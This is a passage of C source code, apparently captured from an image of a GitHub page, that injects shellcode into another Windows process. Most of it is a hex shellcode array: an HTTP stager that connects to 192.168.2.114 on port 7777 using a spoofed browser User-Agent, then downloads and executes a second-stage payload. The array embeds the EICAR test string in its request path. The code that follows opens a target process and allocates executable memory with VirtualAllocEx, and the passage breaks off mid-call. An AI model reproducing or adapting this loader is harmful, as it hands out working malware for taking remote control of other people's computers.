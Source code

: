 ```
  unsigned char buf\[\] = "\\xfc\\x48\\x83\\xe4\\xf0\\xe8\\xc8\\x00\\x00\\x00\\x41\\x51\\x41\\x50\\x52\\x51\\x56\\x48\\x31\\xd2\\x65\\x48\\x8b\\x52\\x60\\x48\\x8b\\x52\\x18\\x48\\x8b\\x52\\x20\\x48\\x8b\\x72\\x50\\x48\\x0f\\xb7\\x4a\\x4a\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\xe2\\xed\\x52\\x41\\x51\\x48\\x8b\\x52\\x20\\x8b\\x42\\x3c\\x48\\x01\\xd0\\x66\\x81\\x78\\x18\\x0b\\x02\\x75\\x72\\x8b\\x80\\x88\\x00\\x00\\x00\\x48\\x85\\xc0\\x74\\x67\\x48\\x01\\xd0\\x50\\x8b\\x48\\x18\\x44\\x8b\\x40\\x20\\x49\\x01\\xd0\\xe3\\x56\\x48\\xff\\xc9\\x41\\x8b\\x34\\x88\\x48\\x01\\xd6\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\x38\\xe0\\x75\\xf1\\x4c\\x03\\x4c\\x24\\x08\\x45\\x39\\xd1\\x75\\xd8\\x58\\x44\\x8b\\x40\\x24\\x49\\x01\\xd0\\x66\\x41\\x8b\\x0c\\x48\\x44\\x8b\\x40\\x1c\\x49\\x01\\xd0\\x41\\x8b\\x04\\x88\\x48\\x01\\xd0\\x41\\x58\\x41\\x58\\x5e\\x59\\x5a\\x41\\x58\\x41\\x59\\x41\\x5a\\x48\\x83\\xec\\x20\\x41\\x52\\xff\\xe0\\x58\\x41\\x59\\x5a\\x48\\x8b\\x12\\xe9\\x4f\\xff\\xff\\xff\\x5d\\x6a\\x00\\x49\\xbe\\x77\\x69\\x6e\\x69\\x6e\\x65\\x74\\x00\\x41\\x56\\x49\\x89\\xe6\\x4c\\x89\\xf1\\x41\\xba\\x4c\\x77\\x26\\x07\\xff\\xd5\\x48\\x31\\xc9\\x48\\x31\\xd2\\x4d\\x31\\xc0\\x4d\\x31\\xc9\\x41\\x50\\x41\\x50\\x41\\xba\\x3a\\x56\\x79\\xa7\\xff\\xd5\\xeb\\x73\\x5a\\x48\\x89\\xc1\\x41\\xb8\\x61\\x1e\\x00\\x00\\x4d\\x31\\xc9\\x41\\x51\\x41\\x51\\x6a\\x03\\x41\\x51\\x41\\xba\\x57\\x89\\x9f\\xc6\\xff\\xd5\\xeb\\x59\\x5b\\x48\\x89\\xc1\\x48\\x31\\xd2\\x49\\x89\\xd8\\x4d\\x31\\xc9\\x52\\x68\\x00\\x02\\x40\\x84\\x52\\x52\\x41\\xba\\xeb\\x55\\x2e\\x3b\\xff\\xd5\\x48\\x89\\xc6\\x48\\x83\\xc3\\x50\\x6a\\x0a\\x5f\\x48\\x89\\xf1\\x48\\x89\\xda\\x49\\xc7\\xc0\\xff\\xff\\xff\\xff\\x4d\\x31\\xc9\\x52\\x52\\x41\\xba\\x2d\\x06\\x18\\x7b\\xff\\xd5\\x85\\xc0\\x0f\\x85\\x9d\\x01\\x00\\x00\\x48\\xff\\xcf\\x0f\\x84\\x8c\\x01\\x00\\x00\\xeb\\xd3\\xe9\\xe4\\x01\\x00\\x00\\xe8\\xa2\\xff\\xff\\xff\\x2f\\x33\\x77\\x7a\\x39\\x00\\x35\\x4f\\x21\\x50\\x25\\x40\\x41\\x50\\x5b\\x34\\x5c\\x50\\x5a\\x58\\x35\\x34\\x28\\x50\\x5e\\x29\\x37\\x43\\x43\\x29\\x37\\x7d\\x24\\x45\\x49\\x43\\x41\\x52\\x2d\\x53\\x54\\x41\\x4e\\x44\\x41\\x52\\x44\\x2d\\x41\\x4e\\x54\\x49\\x56\\x49\\x52\\x55\\x53\\x2d\\x54\\x45\\x53\\x54\\x2d\\x46\\x49\\x4c\\x45\\x21\\x24\\x48\\x2b\\x48\\x2a\\x00\\x35\\x4f\\x21\\x50\\x25\\x00\\x55\\x73\\x65\\x72\\x2d\\x41\\x67\\x65\\x6e\\x74\\x3a\\x20\\x4d\\x6f\\x7a\\x69\\x6c\\x6c\\x61\\x2f\\x35\\x2e\\x30\\x20\\x28\\x63\\x6f\\x6d\\x70\\x61\\x74\\x69\\x62\\x6c\\x65\\x3b\\x20\\x4d\\x53\\x49\\x45\\x20\\x39\\x2e\\x30\\x3b\\x20\\x57\\x69\\x6e\\x64\\x6f\\x77\\x73\\x20\\x4e\\x54\\x20\\x36\\x2e\\x31\\x3b\\x20\\x54\\x72\\x69\\x64\\x65\\x6e\\x74\\x2f\\x35\\x2e\\x30\\x3b\\x20\\x4c\\x45\\x4e\\x32\\x29\\x0d\\x0a\\x00\\x35\\x4f\\x21\\x50\\x25\\x40\\x41\\x50\\x5b\\x34\\x5c\\x50\\x5a\\x58\\x35\\x34\\x28\\x50\\x5e\\x29\\x37\\x43\\x43\\x29\\x37\\x7d\\x24\\x45\\x49\\x43\\x41\\x52\\x2d\\x53\\x54\\x41\\x4e\\x44\\x41\\x52\\x44\\x2d\\x41\\x4e\\x54\\x49\\x56\\x49\\x52\\x55\\x53\\x2d\\x54\\x45\\x53\\x54\\x2d\\x46\\x49\\x4c\\x45\\x21\\x24\\x48\\x2b\\x48\\x2a\\x00\\x35\\x4f\\x21\\x50\\x25\\x40\\x41\\x50\\x5b\\x34\\x5c\\x50\\x5a\\x58\\x35\\x34\\x28\\x50\\x5e\\x29\\x37\\x43\\x43\\x29\\x37\\x7d\\x24\\x45\\x49\\x43\\x41\\x52\\x2d\\x53\\x54\\x41\\x4e\\x44\\x41\\x52\\x44\\x2d\\x41\\x4e\\x54\\x49\\x56\\x49\\x52\\x55\\x53\\x2d\\x54\\x45\\x53\\x54\\x2d\\x46\\x49\\x4c\\x45\\x21\\x24\\x48\\x2b\\x48\\x2a\\x00\\x35\\x4f\\x21\\x50\\x25\\x40\\x41\\x50\\x5b\\x34\\x5c\\x50\\x5a\\x58\\x35\\x34\\x28\\x50\\x5e\\x29\\x37\\x43\\x43\\x29\\x37\\x7d\\x24\\x45\\x49\\x43\\x41\\x52\\x2d\\x53\\x54\\x41\\x4e\\x44\\x41\\x52\\x44\\x2d\\x41\\x4e\\x54\\x49\\x56\\x49\\x52\\x55\\x53\\x2d\\x54\\x45\\x53\\x54\\x2d\\x46\\x49\\x4c\\x45\\x21\\x24\\x48\\x2b\\x48\\x2a\\x00\\x35\\x4f\\x21\\x50\\x25\\x40\\x41\\x50\\x5b\\x34\\x5c\\x50\\x5a\\x58\\x35\\x00\\x41\\xbe\\xf0\\xb5\\xa2\\x56\\xff\\xd5\\x48\\x31\\xc9\\xba\\x00\\x00\\x40\\x00\\x41\\xb8\\x00\\x10\\x00\\x00\\x41\\xb9\\x40\\x00\\x00\\x00\\x41\\xba\\x58\\xa4\\x53\\xe5\\xff\\xd5\\x48\\x93\\x53\\x53\\x48\\x89\\xe7\\x48\\x89\\xf1\\x48\\x89\\xda\\x41\\xb8\\x00\\x20\\x00\\x00\\x49\\x89\\xf9\\x41\\xba\\x12\\x96\\x89\\xe2\\xff\\xd5\\x48\\x83\\xc4\\x20\\x85\\xc0\\x74\\xb6\\x66\\x8b\\x07\\x48\\x01\\xc3\\x85\\xc0\\x75\\xd7\\x58\\x58\\x58\\x48\\x05\\x00\\x00\\x00\\x00\\x50\\xc3\\xe8\\x9f\\xfd\\xff\\xff\\x31\\x39\\x32\\x2e\\x31\\x36\\x38\\x2e\\x32\\x2e\\x31\\x31\\x34\\x00\\x00\\x00\\x00\\x00";


  HANDLE ProHandle = OpenProcess(
    PROCESS\_CREATE\_THREAD| PROCESS\_VM\_WRITE| PROCESS\_VM\_OPERATION,
    FALSE,
    ProcessID
  );

  if (ProHandle == NULL) {
    printf("\[+\]Process Open Fail !!!");
  }

  LPVOID target\_payload = VirtualAllocEx(
    ProHandle,
    NULL,
    sizeof(buf),
    MEM\_COMMIT | MEM\_RESERVE,
    PAGE\_EXECUTE\_READWRITE
```